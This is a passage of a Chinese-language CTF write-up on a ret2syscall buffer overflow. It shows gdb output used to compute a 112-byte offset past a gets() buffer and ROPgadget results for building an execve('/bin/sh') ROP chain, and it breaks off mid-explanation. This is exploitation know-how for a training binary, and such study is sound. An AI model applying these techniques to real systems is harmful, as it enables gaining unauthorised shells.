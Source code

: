 也是通过覆盖返回地址来进行调用，只不过不能直接找到 “/bin/sh”  要自己构造系统调用



关键点：

1. v4 距离ebp 地址
2. 自己构造rop链
3. 构造pwn tools

解决：

1.手工计算

```
$esp   : 0xbffff010  →  0xbffff02c  →  0x00000003
$ebp   : 0xbffff098  →  0x08049630  →  <__libc_csu_fini+0> push ebx
$esi   : 0x0       


0x8048e8f <main+107>       lea    eax, [esp+0x1c]
    0x8048e93 <main+111>       mov    DWORD PTR [esp], eax
 →  0x8048e96 <main+114>       call   0x804f650 <gets>
   ↳   0x804f650 <gets+0>         push   edi

length:6C : 108
108+4 = 112 
```

2.构造系统调用 ROP链

```
 execve(“/bin/sh”, 0,0);

pop eax,   # 系统调用号载入， execve为0xb

ROPgadget --binary ret2syscall --only 'pop|ret' | grep "eax"
0x080bb196 : pop eax ; ret


pop ebx,     # 第一个参数， /bin/sh的string
pop ecx,  # 第二个参数，0

ROPgadget --binary pwn2 --only 'pop|ret' | grep "ecx"
0x0806eb91 : pop ecx ; pop ebx ; ret



pop edx, # 第三个参数，0

ROPgadget --binary pwn2 --only 'pop|ret' | grep "edx"
0x0806eb6a : pop edx ; ret


int 0x80,  # 执行系统调用

ROPgadget --binary pwn2 --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80


每个都有ret
ret解释：
1.
eip = [esp];
esp = esp+4;
2.
```
